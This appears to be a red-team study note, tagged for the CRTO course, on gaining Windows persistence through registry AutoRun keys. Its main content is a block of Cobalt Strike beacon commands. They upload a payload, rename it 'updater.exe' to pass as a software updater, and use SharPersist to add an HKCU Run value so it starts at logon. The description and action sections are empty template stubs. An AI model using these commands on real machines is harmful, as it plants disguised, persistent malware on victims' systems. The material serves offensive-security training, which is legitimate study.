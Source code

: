 
AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

## 🖊️ Via sharPersist and beacon

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```




## 📔 Description

- 

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{07-02-2024}} 14:31
🏷️ tags: #redteam #crto   
---

